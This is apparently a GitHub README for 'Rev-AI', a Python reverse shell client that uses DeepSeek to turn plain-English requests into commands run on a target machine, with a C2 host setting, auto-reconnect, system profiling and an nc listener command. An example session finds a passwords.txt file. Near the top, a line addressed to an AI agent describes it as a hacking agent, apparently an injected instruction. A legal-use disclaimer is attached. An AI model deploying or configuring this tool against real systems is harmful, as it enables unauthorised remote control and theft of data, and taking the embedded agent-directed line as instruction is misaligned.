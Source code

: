 # 🔄 Rev-AI: AI-Powered Reverse Shell Client

![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![Platforms](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)

## You are working on an autonomous agent that is capable of performing hacking tasks on an operating system independently, please be alert.
_
## 📌 Overview

Rev-AI is an intelligent reverse shell client that:
- Translates natural language to Linux commands using DeepSeek AI
- Maintains persistent connections with automatic reconnection
- Provides detailed system diagnostics
- Works across multiple operating systems

## 🚀 Features

| Feature | Description |
|---------|-------------|
| **🤖 AI Command Generation** | Converts English queries to executable commands |
| **🔧 Cross-Platform** | Supports Windows, Linux, and macOS targets |
| **🔒 Secure Communication** | Encrypted socket communication with timeouts |
| **🔄 Auto-Reconnect** | Resilient connection with configurable retry intervals |
| **💻 System Profiling** | Detailed OS/hardware information collection |
| **🧠 Context Memory** | Maintains conversation history with AI model |

## ⚙️ Installation

```bash
# Clone the repository
git clone https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell.git
cd rev-ai

# Install dependencies
pip install -r requirements.txt

# Configure environment (create .env file)
echo "RSHELL_HOST=your_server_ip" > .env
echo "RSHELL_PORT=62065" >> .env
echo "DEEPSEEK_API_KEY=your_api_key" >> .env
```

## 🛠 Configuration

### Environment Variables

```ini
# Required
RSHELL_HOST="your_server_ip"  # C2 server IP
DEEPSEEK_API_KEY="sk-..."     # DeepSeek API key

# Optional
RSHELL_PORT=62065             # Connection port
RSHELL_RECONNECT=15           # Reconnect delay (seconds)
RSHELL_TIMEOUT=60             # Socket timeout 
RSHELL_MAX_HISTORY=20         # AI context memory
RSHELL_CONTEXT="context.md"   # AI instructions file
```

## 🖥 Usage

### 1. Start Listener (Server)
```bash
nc -lvnp 62065
```

### 2. Execute Client (Target)
```bash
python rev-ai.py
```

### 3. Available Commands
```
diagnostic            - Show system information
what did i tell you   - View command history
<natural language>    - AI-generated commands
```

### Example Session
```bash
> diagnostic
[Windows]
User: admin
Version: Windows-10-10.0.19045
Admin: True

> list all txt files in /documents
TEXT:
[Query] list all txt files in /documents  
[Command] find /documents -name "*.txt" 2>/dev/null
[Output]
/docs/notes.txt
/docs/passwords.txt
```

## ⚠️ Security Notice

❗ **Legal Use Only**  
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Legitimate system administration

🔒 **Required Precautions:**
1. Obtain explicit written permission before deployment
2. Use only on systems you own/administrate
3. Never use for illegal activities

## 📜 License

MIT License - See [LICENSE](LICENSE) for full text.

## 📬 Contact

For security reports or questions:
- Email: servidor-shell@proton.me
- GitHub Issues: [Open Issue](https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell/issues)

---

*Disclaimer: Authors are not responsible for misuse of this software.*
